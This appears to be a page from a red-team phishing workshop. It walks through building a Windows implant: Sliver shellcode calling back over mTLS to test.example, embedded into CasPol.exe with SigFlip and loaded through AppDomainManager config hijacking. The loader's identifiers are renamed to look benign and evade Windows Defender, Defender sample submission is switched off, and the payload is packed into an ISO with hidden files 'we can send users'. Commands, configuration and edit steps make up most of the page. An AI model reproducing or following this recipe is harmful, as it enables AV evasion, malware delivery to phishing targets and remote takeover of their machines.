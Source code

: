 +++
title = "Better Payload Generation"
weight = 110
+++

### Better implants (frostbyte bypass windows defender)

Instead of generating a executable. We can generate shellcode. We can then use something like [https://github.com/pwn1sher/frostbyte](https://github.com/pwn1sher/frostbyte) to load that shellcode into memory and execute it.

### Get frostbyte

Lets get download the [frostbyte zip](https://github.com/pwn1sher/frostbyte/archive/refs/heads/main.zip) from Github.

### Generate shellcode

In a sliver shell we need to run the following to generate some shellcode to be used later. We'll use `test.example` as the callback domain, we will add an entry to the Windows hosts file.

```bash
generate --mtls test.example -f shellcode --save implants/shellcodex64.bin
```

Copy the shell code to the share.

```bash
mkdir -p /share/operator-$(ip a | grep 172 | awk '{print $2}' | cut -d/ -f1 | cut -d. -f4)
cp implants/shellcodex64.bin /share/operator-$(ip a | grep 172 | awk '{print $2}' | cut -d/ -f1 | cut -d. -f4)
```

It is time to switch to windows.

Copy the shellcode to your `Desktop\frostbyte-main` folder on the windows machine.



### Setup Files for New Payload

```bat
cd Desktop\frostbyte-main
mkdir AuthHelper
mkdir AuthHelper\dist\
copy Update.exe.config AuthHelper\dist\AuthHelper.exe.config
copy test.cs AuthHelper\AuthHelper.cs
cd AuthHelper
```

### Run SigFlip

Now that we have things setup we can run `SigFlip` to encode our shellcode into the `CasPol.exe` and save it as `AuthHelper.exe` in our newly created `AuthHelper` folder.

```bat
..\SigFlip.exe -i "..\CasPol.exe" "..\shellcodex64.bin" ".\dist\AuthHelper.exe" "PYLD4ME"
```

Pay attention to the output. I had to make note of the padding value and add it to two lines in the `.cs` file

### Update `dist\AuthHelper.exe.config`

- We need to replace `test` with our executabe name our executable name without the extenaion (`AuthHelper`). 
- Next we need to update the value of `appDomainManagerType` to be something else `NewAuthHelper`.
- Finally lets make `privatePath` a relative path `.`

```xml
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <probing privatePath="."/>
      </assemblyBinding> 
	  <appDomainManagerAssembly value="AuthHelper, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null" />  
	  <appDomainManagerType value="NewAuthHelper" />  
   </runtime>
</configuration>
```

### Update AuthHelper\AuthHelper.cs

Now we need to update the `AuthHelper.cs` file.

- remove top three lines prepended with `#`
- replace `Z45UDG` with `NewAuthHelper`
- comment out logging on lines `154` and `161`
- replace `S3cretK3y` with `PYLD4ME`
- change `Z:\\zloader\\update.exe` to `AuthHelper.exe`
- replace all instances of `shellcode` with `certData`
- replace all instances of `ClassExample` with `AuthHelper`
- replace all instances of `Executing Beacon!` with `Begin Execution!`
- replace all instances of `Decrypt` with `CheckAuth`
- replace all instances of `ExecShellcode` with `Authorize`
- Update `_peBlob.Length+2` to be `_peBlob.Length+10`


```
C:\windows\Microsoft.NET\Framework\v3.5\csc.exe /target:library /out:dist\AuthHelper.dll AuthHelper.cs
```

### Prepare for Testing

We need to modify `C:\Windows\System32\drivers\etc\hosts` and add an entry for `test.example`.

- Run notepad as administrator
![Run Notepad as Administrator](/static/how-to-phishing/notepad-runas.png)

- Ensure you have show all files selected 
![Notepad Show All Files](/static/how-to-phishing/notepad-open-allfiles.png)

- Browse to `C:\Windows\System32\drivers\etc\`
- Add en antry for `test.example` to go to your Linux box runnning `sliver`.
![Windows Hosts File Entry](/static/how-to-phishing/windows-hosts-entry.png)

We should also set defender to not send off samples.

- Open Windows Defender
![Defender Tray Entry](/static/how-to-phishing/defender-tray.png)

- Select **Virus & threat protection** from the left side navigation.
- Click **Manage settings**
![Defender Settings](/static/how-to-phishing/defender-settings.png)

- Turn off sample submission
![Defender Sample Submission](/static/how-to-phishing/defender-sample-submission.png)

### Testing

Now we should be able to open out `dist` folder and run the `AuthHelper.exe`.
![Better Payload Testing](/static/how-to-phishing/better-payload-testing.png)

We should be see a new session popup in Sliver
![Better Payload Testing Sliver](/static/how-to-phishing/better-payload-testing-sliver.png)

Now would be a good time to fine tune our code, remove debugging messages, or add a nice special message that says "Good job! Now your more secure!!". 

### PackMyPayload

Now that we have a nice payload, lets pack it up so we can send it to our phishing targets. We'll use [https://github.com/mgeeky/PackMyPayload](https://github.com/mgeeky/PackMyPayload)


```bash
sudo apt install python3-pip
cd ~/opt
git clone https://github.com/mgeeky/PackMyPayload.git
cd PackMyPayload
python3 -m pip install -r requirements.txt
```

Copy dist folder to your linux VM. I put it in `~/Desktop/op/payloads/AuthHelper/`.

```bash
cd ~/Desktop/op/payloads/AuthHelper
python3 ~/opt/PackMyPayload/PackMyPayload.py --hide AuthHelper.dll,AuthHelper.exe.config dist AuthHelper.iso -v
```

Now we should have a nice `.iso` file we can send users.
![PackMyPayload](/static/how-to-phishing/packmypayload.png)

### Testing... Again

Now we need to test again to make sure everything is working as designed. Copy the `AuthHelper.iso` to the windows machine. We'd hate for users to receive this message instead of us getting a new session:

![Error](/static/how-to-phishing/iso-mount-error.png)
